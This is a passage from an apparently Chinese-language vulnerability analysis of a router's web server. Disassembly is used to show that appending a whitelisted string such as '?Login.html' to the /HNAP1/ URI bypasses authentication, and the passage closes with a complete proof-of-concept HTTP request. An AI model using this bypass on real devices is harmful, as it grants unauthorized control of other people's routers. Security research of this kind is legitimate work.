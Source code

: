     ```

    ```plaintext
    .data:004D01A0 actions_list:   .ascii "GetCAPTCHAsetting"<0>
    .data:004D01A0                                          # DATA XREF: sub_423ECC+D8↑o
    .data:004D01A0                                          # sub_423ECC+12C↑o ...
    .data:004D01B2                 .align 4
    .data:004D01C0 aGetdevicesetti_3:.ascii "GetDeviceSettings"<0>
    .data:004D01D2                 .align 4
    .data:004D01E0 aBlockedpageHtm:.ascii "blockedPage.html"<0>
    .data:004D01F1                 .align 4
    .data:004D0200 aMobileloginHtm:.ascii "MobileLogin.html"<0>
    .data:004D0211                 .align 4
    .data:004D0220 aLoginHtml:     .ascii "Login.html"<0>
    .data:004D022B                 .align 5
    .data:004D0240 aEulaHtml:      .ascii "EULA.html"<0>
    .data:004D024A                 .align 5
    .data:004D0260 aIndexHtml_2:   .ascii "Index.html"<0>
    .data:004D026B                 .align 5
    .data:004D0280 aWizardHtml:    .ascii "Wizard.html"<0>
    .data:004D028C                 .align 5
    .data:004D02A0 aHnap1_5:       .ascii "/HNAP1/"<0>
    .data:004D02A8                 .align 5
    .data:004D02C0 aEulaTermHtml:  .ascii "EULA_Term.html"<0>
    .data:004D02CF                 .align 5
    .data:004D02E0 aEulaPrivacyHtm:.ascii "EULA_Privacy.html"<0>
    .data:004D02F2                 .align 4
    ```

2. 然后返回到函数sub_4249EC，触发该函数继续返回0；
3. 再返回到函数websSecurityHandler中，使得该认证函数返回0，达到认证绕过；

    ```c
    websUrlHandlerDefine("/", 0, 0, websSecurityHandler, 1);
    ```

综上所述，对于路由/HNAP1/，只需要在uri后添加?GetCAPTCHAsetting或者任意其他字符串列表的中字符串，就可以达到认证绕过访问该接口的目的，参考POC如下：

```plaintext
POST /HNAP1/?Login.html HTTP/1.1
Host: 192.168.0.1
Content-Length: 302
Accept: */*
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 00DAB25BFD3EBF8FAD03E60E5616BF44 1598580346156
SOAPAction: "http://purenetworks.com/HNAP1/GetIPv6Status"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Content-Type: text/xml; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Home.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetIPv6Status xmlns="http://purenetworks.com/HNAP1/" /></soap:Body></soap:Envelope>
```
